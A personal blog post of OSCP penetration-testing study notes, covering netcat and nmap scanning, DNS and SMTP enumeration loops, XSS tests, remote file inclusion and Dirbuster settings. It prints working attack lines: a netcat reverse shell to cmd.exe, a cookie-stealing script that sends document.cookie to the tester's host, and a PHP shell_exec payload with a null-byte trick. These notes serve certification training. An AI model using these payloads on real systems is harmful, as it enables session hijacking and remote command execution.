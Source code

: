 ```yaml
---
layout: post
title: OSCP Notes
---
```


## BLUF  
"Bottom Line Up Front" for the non-military types. Honestly I just want to get my notes onto the interwebs and off my VM. I've 
done a lot of bash scripting in OSCP that is super useful, but I can't always remember the syntax. Here's to fixing that. I'll do another blog post tomorrow when I'm not half asleep.  
Edit: After posting this my JS XSS tester executed. Kinda surprising that Github lets you incorporate XSS into a site they host. 
Maybe it's just a don't ask don't tell policy? Gotta put some filler in to stop the code from executing since it would probably 
freak out any onlookers.

## Meat and Potatoes  

### Starting OSCP Work  

- Example OpenVPN firewall - /usr/share/doc/openvpn/examples/sample-config-files/firewall.sh
- Add firewall rules - iptables -A INPUT -p tcp --dport 4444 -j ACCEPT
- Plink (used for something... I don't remember) /usr/share/windows-binaries/plink.exe
- Keepnote for note taking on boxes
- If there is firewall issues, try pushing the cmd line from the remote host by passing nc -nv [IP] [Port] -e cmd.exe from remote end and setting up a listener to catch it
- Recon-ng for passive information gathering

### NMAP/ NC Info Gathering  

- root@kali:~/OSCP# nc -nvv -w 1 -z 10.11.23.156 3385-3395 (full TCP handshake scan using NC)
- root@kali:~/OSCP# nc -unvv -w 1 -z 10.11.23.156 160-165 (UDP scan using NC)
- /usr/share/nmap (location of nmap config files)

Get top UDP ports (over .01 usage according to NMAP)  
- cat /usr/share/nmap/nmap-services | grep '/udp'| cut -f2,3 -d$'\t'| sort -k2 -r | head -n 80 | cut -f1 -d'/'

### DNS  

- host -t ns [domain_name] (to find name servers for given domain)
- host -t mx [domain_name] (to find mail exchange servers for given domain)
- for ip in $(cat NMAP/alives.txt); do dnsrecon -d $ip -t axfr; done

### SMTP/MIB  

- cat mib-values | cut -f1 -d$'\t' (to cut from tab delimited)
- tail -n +1 10.* (cat all files in a directory with the filename as a header)
- for ip in $(cat smtp-open.txt); do for user in $(cat users.txt) ; do ./vrfy.py $ip $user; done; done | grep ^"250" > smtp_open_connected_users & (to find SMTP users who have successfully connected)
- for ip in $(cat NMAP/alives.txt); do nc -nv $ip 25; done (to test SMTP connection using nc [not as good as python script])
- for ip in $(ls | cut -c1-11 | uniq); do mkdir $ip ; done (to creat folders for each ip address in the SNMP directory)

### WGET  
To find the ips with information returned from WGET  
- tail -n +1 ./WGET/*/* | grep connected | cut -f3 -d' '| sort -u | cut -f4 -d'.' | cut -f1 -d':' | sort -u > ./WGET/web_vuln_ips
 
For moving vulnerable IPs to seperate folder  
- for ip in $(cat web_vuln_ips); do  mv 10.11.1.$ip 'Vulnerable Servers'; done 

To get list of vulnerable files downloaded  
- for ip in $(cat ./WGET/web_vuln_ips); do  tail -n +1 ./WGET/$ip/* | grep 10.11.1.$ip/; done

### XSS Commands

To test JS XSS vulnerability (the leading / are to prevent execution on github)
- </iframe SRC="(use your IP):(Port to listen on) /report" height="0" width="0"></iframe></script>alert("XSS through Javascript, success");</script>

Cookie Stealing Inject  
- <script>new Image().src="http://(use your IP):81 /bogus.php?output="+document.cookie;</script>

Malicious php code to host on local box  
- echo '<?php echo shell_exec("ipconfig");?>' > /var/www/html/evil.txt

Then place the appropriate url in place of the php element  
- http://(local ip)/evil.txt  

Then monitor Apache log once the above has been placed in URL
- tail -f /var/log/apache2/access.log  

If php is adding unnecessary values, php 5.3 and below are vulnerable to terminating characters with null character
- http://(local ip)/evil.txt%00  
  
### Dirbuster  
- Wordlist - /usr/share/dirbuster/wordlists/directory-list-1.0.txt (one shown in OSCP video)
- Deselect "Brute Force Files" & "Be Recursive"
- Set number of threads to 70+
